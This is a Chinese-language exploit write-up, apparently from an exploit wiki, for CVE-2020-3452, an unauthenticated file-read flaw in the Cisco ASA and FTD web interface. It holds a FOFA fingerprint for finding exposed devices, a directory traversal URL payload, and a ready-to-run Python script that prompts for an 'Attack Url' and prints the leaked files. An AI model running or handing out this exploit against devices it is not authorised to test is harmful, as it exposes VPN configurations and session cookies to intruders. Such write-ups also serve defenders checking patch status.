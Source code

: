 # CISCO ASA设备任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

Cisco ASA设备

![](image/cisco-1.png)

Cisco FTD设备

![](image/cisco-2.png)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

**POC如下**

```
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件

![](image/cisco-4.png)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Cisco                                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vnln_url = target_url + "/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
    }

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    response = requests.get(url=vnln_url, headers=headers, verify=False ,timeout=20)
    if "Bad Request" in response.text:
            print("\033[31m[x] 漏洞已修复 \033[0m")
    else:
            print("\033[32m[o] 存在漏洞，响应为\n\033[0m",response.text)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/cisco-5.png)